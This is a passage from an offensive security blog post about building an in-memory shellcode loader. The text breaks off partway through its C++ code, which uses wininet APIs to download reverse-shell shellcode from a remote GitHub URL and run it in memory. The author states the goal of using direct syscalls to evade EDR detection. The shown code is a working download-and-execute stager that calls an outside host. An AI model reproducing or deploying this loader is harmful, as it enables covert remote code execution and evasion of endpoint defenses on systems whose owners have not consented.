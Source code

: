 ```yaml
---
title:  Using Direct Syscalls with an In-Memory PIC Shellcode Loader
header:
  teaser: "/assets/images/pic_syscall.png"
categories:
  - Fileless Techniques
tags:
  - obfuscation
  - shellcode loader
  - '2025'
  - PIC shellcode
  - g3tsyst3m
  - Stager
  - In-Memory
  - PE Loader
  - Direct Syscalls
  - Windows 11
---
```


Today's post began in an unusual manner lol.  I wanted to explore the basic concept of creating an in-memory shellcode loader using APIs from the Wininet.h library.  I then got sidetracked and became interested in doing this purely using x64 assembly, which in turn led me to want to make it PIC friendly 😸  Furthermore, I also wanted to include the use of syscalls to help reduce detection at the EDR layer. 😹  All of that to just load some reverse shell shellcode.  

To kick things off, I started with some basic c++ code that would download and execute code in-memory.  The APIs I went with were `InternetOpenA`, `InternetOpenUrlA`, and `InternetReadFile`.  It's not an uncommon approach to downloading and executing shellcode, and you don't have to resort to using `wininet` either.  There are other perfectly suitable libraries that can download and execute files.  However, I'm personally most familiar with wininet.h so I went with it 😸

So, let's start with the C++ code share we?  That will give you an idea how all this began

In-memory Shellcode loader using C++ 
-

Here's the basic template I started out with:

```cpp
#include <wininet.h>
#include <iostream>
#include <vector>

#pragma comment(lib, "wininet.lib")
#pragma comment(lib, "kernel32.lib")

int main() {
    const char* agent = "Mozilla/5.0";
    // this is a reverse tcp shell
    // reg.dyno contains a destination IP 127.0.0.1 and port 9001
    // I like using random file extension as it seems to produce a smaller footprint in regards to EDR shenanigans :D
    const char* url = "https://github.com/g3tsyst3m/undertheradar/raw/refs/heads/main/reg.dyno";

    // ---- Open Internet session ----
    HINTERNET hInternet = InternetOpenA(agent, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) {
        std::cerr << "InternetOpenA failed: " << GetLastError() << "\n";
        return 1;
    }

    // ---- Open URL ----
    HINTERNET hUrl = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_NO_CACHE_WRITE, 0);
    if (!hUrl) {
```